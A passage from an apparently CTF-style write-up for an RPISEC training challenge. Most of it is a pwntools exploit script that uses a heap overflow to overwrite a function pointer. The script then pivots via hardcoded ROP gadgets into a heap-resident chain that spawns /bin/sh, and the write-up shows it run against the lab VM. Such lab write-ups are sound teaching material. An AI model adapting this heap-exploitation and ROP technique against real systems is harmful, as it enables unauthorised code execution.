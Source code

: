         p32(0x0), 
        # software interrupt invocation gadget
        p32(0x08048ef6), 
    ]

    main_rop_chain = build_heap_rop_chain(main_gadgets)
    # misc gadgets
    stack_pivoting_gadget = p32(0x0807e372)
    mov_eax_edx_gadget = p32(0x080671c4)
    pivot_to_heap_gadget = p32(0x0804bb6c)

    # first chunk allocation that will overflow the second
    first_chunk_len = 130
    first_chunk_payload = garbage_byte * msg_len + p32(offset_to_func_ptr + 
                                                       ptr_size + 
                                                       offset_to_main_rop_chain +
                                                       2 * ptr_size + 
                                                       ptr_size * len(main_rop_chain)) 
    allocate_chunk(first_chunk_payload, first_chunk_len)
    
    # the second chunk will carry the main ROP chain, so there is no reason to malform it like the first one
    second_chunk_len = 1
    second_chunk_payload = garbage_byte
    allocate_chunk(second_chunk_payload, second_chunk_len)
    # edit the first chunk to overflow the second in order to write a main payload into it PRIOR to execution flow hijacking
    first_chunk_edited_payload = garbage_byte * offset_to_func_ptr + stack_pivoting_gadget + garbage_byte * offset_to_main_rop_chain + bin_sh_str_address + garbage_byte * ptr_size + main_rop_chain
    edit_chunk(first_chunk_edited_payload, 0)
    # the short ROP chain in numbuf stack buffer that allows to pivot into the heap
    stack_rop_chain = garbage_byte * numbuf_padding + mov_eax_edx_gadget + pivot_to_heap_gadget;
    # trigger the arbitrary code execution via printing the second chunk which function pointer was overwritten with stack pivoting gadget address
    print_chunk(corrupted_chunk_idx, stack_rop_chain) 
    # enjoy the shell :)
    io.interactive()
```

Now let's exploit the actual RPISEC VM where the challenge and its' flag reside (change the exploit according to your host-guest VM network settings):

![image](https://user-images.githubusercontent.com/45107680/95243635-9a3fa900-0819-11eb-9caa-940454fcd316.png)

That's all :) 

```